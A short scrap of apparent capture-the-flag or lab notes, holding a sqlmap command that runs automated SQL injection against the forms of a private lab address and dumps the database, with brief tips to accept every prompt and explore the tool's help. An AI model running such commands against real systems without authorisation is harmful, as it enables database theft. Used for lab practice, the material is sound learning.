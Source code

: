 sqlmap -u http://10.10.62.196  --dump --forms

//press yes until result

try few other things through help

